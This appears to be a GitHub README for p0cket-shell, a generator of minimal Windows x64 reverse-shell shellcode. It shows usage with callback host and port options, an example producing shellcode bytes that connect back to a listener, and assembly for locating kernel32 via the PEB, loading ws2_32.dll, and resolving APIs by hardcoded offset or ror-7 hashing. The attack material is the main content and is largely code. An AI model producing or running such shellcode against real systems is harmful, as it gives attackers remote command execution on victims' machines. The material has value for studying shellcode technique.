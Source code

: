 ﻿<div align="center" markdown="1">
  <img alt="Warp sponsorship" width="736" src="https://github.com/SilentisVox/p0cket-shell/blob/master/assets/p0cket-shell.jpg">
  <br>
  <sup>Special thanks to Waffles</sup>
</div>

# p0cket-shell

p0cket-shell is an implementation of an exceptionally compact reverse shell, engineered to achieve remote access with the smallest possible memory. This is minimalism without compromising functionality. This is the most size-efficient reverse shell available. This is peak shellcode optimization.

```
p0cket-shell.py
            ____       __        __             __         ____
     ____  / __ \_____/ /_____  / /_      _____/ /_  ___  / / /
    / __ \/ / / / ___/ //_/ _ \/ __/_____/ ___/ __ \/ _ \/ / /
   / /_/ / /_/ / /__/ ,< /  __/ /_/_____(__  ) / / /  __/ / /
  / .___/\____/\___/_/|_|\___/\__/     /____/_/ /_/\___/_/_/
 /_/
 Author: SilentisVox
 Github: https://github.com/SilentisVox/p0cket-shell

usage: p0cket-shell.py [-h] --payload {hardcode,resolve} --LHOST LHOST --LPORT LPORT --format
                       {c,powershell,ps1,python,exe,raw} [--output OUTPUT]
```

### Setup

```powershell
git clone https://github.com/SilenitsVox/p0cket-shell
cd p0cket-shell
python p0cket-shell.py
```

### Usage

```powershell
p0cket-shell.py --payload  [hardcode | resolve]
                --LHOST    [callback ip]
                --LPORT    [callback port]
                --format   [c | powershell | python | exe | raw]
               [--output]  example.py
```

### Example

```
p0cket-shell.py -p hardcode -lh 192.168.1.190 -lp 1337 -f python

[*] Payload size: 278 bytes
[*] Final size of python file: 1387 bytes
buf  = b""
buf += b"\x65\x48\x8b\x04\x25\x60\x00\x00\x00\x48\x8b\x40"
buf += b"\x18\x48\x8b\x40\x30\x48\x8b\x00\x48\x8b\x00\x48"
buf += ...
```

## How it works

Standalone reverse shell shellcode must follow a specific process. Fortunately for us, it is very straight forward.

1. Get handle to kernel32.dll
2. Get handle to ws2_32.dll
3. Save functions: WSAStartup, WSASocketA, WSAConnect CreateProcessA
4. Call functions: WSAStartup, WSASocketA, WSAConnect CreateProcessA

###### Grab library handles
```nasm
get_kernel32:
    mov   rax,   gs:[0x60]              ; PEB
    mov   rax,   [rax + 0x18]           ; PEB->Ldr
    mov   rax,   [rax + 0x30]           ; Ldr->InMemoryOrderModuleList
    mov   rax,   [rax]                  ; InMemoryOrderModuleList.Flink (ntdll.dll)
    mov   rax,   [rax]                  ; Flink->Flink (kernel32.dll)
    mov   rbp,   [rax + 0x10]           ; Base Address
```
```nasm 
load_ws2_32:
    push  0x006c6c                      ; '0\ll'
    mov   rax,   0x642e32335f327377     ; 'd.23_2sw'
    push  rax                           ; Push to stack
    mov   rcx,   rsp                    ; Save pointer 'ws2_32.dll' to rcx
    sub   rsp,   0x28                   ; Align stack
    call  r14                           ; Call LoadLibraryA (Base Address stored in rax)
```

Now from here we can grab the functions within the 2 libraries and then use them how we want. We have to remember how each function behaves and remember whats needed for each function.

### Finding Functions

Now this is the main issue with making tiny shellcode. We want the most reliable/stable, while also providing a very small size. If we do not care for these, we can make very small shellcode.

All we would need to do is have a hardcoded offset from the module base address.

###### Hardcode Offset

```nasm
get_createprocess:
    lea   r15,   [rbp + 0x44F70] ; Hardcode offset from base address
```

If we wish to maintain reliablity and stabilty, we must parse through the desired libraries AddressOfNames, and match it to one we have. The best way to accomplish this would be hashes.

We need a custom mini hash algorithm to make hashes of our desired functions, then we would need to find a function name, hash it, then compare to what we have. If it matches, save the address and return.

### Hashing Algorithm

###### Calculate Hash User Side

```python
def hash(function_name: bytes, rotate_amount: int):
    calculated_hash                     = 0

    for byte in function_name:
        calculated_hash                 = ((calculated_hash >> rotate_amount) | (calculated_hash << (32 - rotate_amount))) & 0xFFFFFFFF
        calculated_hash                 = (calculated_hash + byte) & 0xFFFFFFFF

    return hex(calculated_hash)
```

###### Calculate Hash Machine Side

```nasm
    xor   rax, rax
    xor   rbx, rbx
    cld

hash_loop:
    lodsb
    test  al,    al
    jz    compare_hash
    ror   ebx,   7 ;)
    add   ebx,   eax
    jmp   hash_loop

compare_hash:
    cmp   ebx,   rdx ; Or wherever you have the hash
    jz    hash_found
    jnz   next_function
```